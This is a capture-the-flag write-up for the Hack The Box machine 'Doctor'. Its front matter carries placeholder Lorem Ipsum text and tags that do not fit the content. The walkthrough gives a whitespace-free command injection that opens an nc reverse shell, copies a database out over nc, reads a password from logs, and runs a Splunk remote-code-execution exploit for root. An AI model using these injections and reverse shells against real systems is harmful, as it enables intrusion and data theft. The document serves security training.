 ```yaml
---
layout: single
title: Doctor - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-11-04
classes: wide
header:
  teaser: /assets/images/htb-writeup-doctor/doctor_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-doctor/doctor_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. root@nidus:/git/htb/doctor# nmap -Pn -n -sC -sV 10.10.10.209
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 12:51 CEST
    Nmap scan report for 10.10.10.209
    Host is up (0.035s latency).
    Not shown: 997 filtered ports
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Doctor
    8089/tcp open  ssl/http Splunkd httpd
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Splunkd
    |_http-title: splunkd
    | ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
    | Not valid before: 2020-09-06T15:57:27
    |_Not valid after:  2023-09-06T15:57:27
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


    DIRB:
    + http://10.10.10.209/index.html (CODE:200|SIZE:19848)

    NIKTO:
    -


2. Visiting the http://10.10.10.209 we find a domain name, doctors.htb - add it to /etc/hosts. Three potential users, Jade Guzman,
   Hannah Ford, James Wilson, and blog posts by Admin. We find nothing more of interest so lets move ahead to http://doctors.htb.

   We are greeted with a login promtp. Trying different email addresses it seems like the error message is the same no matter what.
   Sign up to the site and create an account. Once logged in we are able to create a post, and update our profile.

   Our first post is at http://doctors.htb/post/2, notice that the first post got number 2 in the url. Visit http://doctors.htb/post/1
   and we find a post by user Admin.

      admin 2020-09-18
      Doctor blog

      A free blog to share medical knowledge. Be kind!

   We can view all post by user Admin on http://doctors.htb/user/admin, however he's only done one.


3. From the post content field we have code execution through a URL validation function. All URL's posted in the content field
   will be executed to see if valid, giving us some kind of Code Execution.

   Content: http://10.10.14.9:4488

   root@nidus:/git/htb/doctor# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 42406
    GET / HTTP/1.1
    Host: 10.10.14.9:4488
    User-Agent: curl/7.68.0
    Accept: */*

   Trying to setup reverse payload through php etc doesn't do anything, so I think we need to do the RCE in the URL.
   After a while I found the post from 'Shift or Die' about Shell Injection without withspaces and played around with that.
   Reading the forums + tweaking that one line eventually gave me a reverse shell.

   Content: http://10.10.14.9/$(nc.traditional$IFS'10.10.14.9'$IFS'4488'$IFS-e/bin/sh)

   root@nidus:/git/htb/doctor# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 42612
    whoami
      web


3. Upgrade the shell ( python3 -c 'import pty;pty.spawn("/bin/bash")'; )
   Once we have a foothold, the first dir we land in has a script called blog.sh, we see the script pointing towards a database file
   and we get a secret key(?).

   web@doctor:~$ cat blog.sh
    #!/bin/bash
    SECRET_KEY=1234 SQLALCHEMY_DATABASE_URI=sqlite://///home/web/blog/flaskblog/site.db /usr/bin/python3 /home/web/blog/run.py

   Transfer the database file to your local computer and investigate it.
    root@nidus:/git/htb/doctor# nc -lp 1234 > site.db
    web@doctor:~/blog/flaskblog$ nc -w 3 10.10.14.9 1234 < site.db

    root@nidus:/git/htb/doctor# sqlite3 site.db
      SQLite version 3.33.0 2020-08-14 13:23:32
      Enter ".help" for usage hints.
      sqlite> .tables
        post  user
      sqlite> .schema user
        CREATE TABLE user (
        	id INTEGER NOT NULL,
        	username VARCHAR(20) NOT NULL,
        	email VARCHAR(120) NOT NULL,
        	image_file VARCHAR(20) NOT NULL,
        	password VARCHAR(60) NOT NULL,
        	PRIMARY KEY (id),
        	UNIQUE (username),
        	UNIQUE (email)
        );
      sqlite> .header ON
      sqlite> select * from user;
        id|username|email|image_file|password
        1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
        2|p3|p3@p3.se|default.gif|$2b$12$foJvOG4jKtMmHjJ6n6YU7unB2zQQnIDlYqHkvvttNKsafJyFn/9DK

    The hashes for me are unknown, and using Kali's 'hash-identifier' gives nothing. Crackstation are unable to crack the hashes, so
    this might be a rabbit hole.


4. Enumerate the logs! As the box image suggests the logs should be a part of this box. Looking through /var/log/apache2 we find
   backup sticking out like a sore thumb. Grep it for password and we got a hit!

    web@doctor:/var/log/apache2$ cat backup | grep password
      10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"


5. Change to user Shaun and grab user.txt

    web@doctor:/var/log/apache2$ su shaun
    Password: Guitar123

    shaun@doctor:/var/log/apache2$
    shaun@doctor:/var/log/apache2$ cat ~/user.txt
      9ebedf116da41ba52906a5ab9ca5d8f8


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking at the running processes we see that splunkd is running as root on port 8089.

root        1129  0.2  2.2 280284 91684 ?        Sl   Sep27   2:58 splunkd -p 8089 start

Googling around for Splunk exploits I came across a script called PySplunkWhisperer2_remote.py, that can be used for RCE. As Splunk
is running as root, in our case, we can probably use this RCE to gain a root shell.


2. The script syntaxes and how to use them, especially payload, was difficult for me to graps. After some further googling I found
a page from eapolsniper, explaning a lot of different ways on how to use this exploit. With this new found knowledge;

Setup a local nc listener.

Exploit:
root@nidus:/git/htb/doctor# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/sh 10.10.14.9 4488" --lhost 10.10.14.9
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpre8z_d99.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.9:8181/
10.10.10.209 - - [05/Nov/2020 12:13:19] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

root@nidus:/git/htb/doctor# nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 56250
whoami
root
cat /root/root.txt
45f20a790d86b9e8334d447f9e878605


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Shell Injection - nc.traditional
  https://shiftordie.de/blog/2011/12/23/shell-injection-without-whitespace/

SQLite3 CLI:
  https://sqlite.org/cli.html

Splunk Exploit:
  https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py
  https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
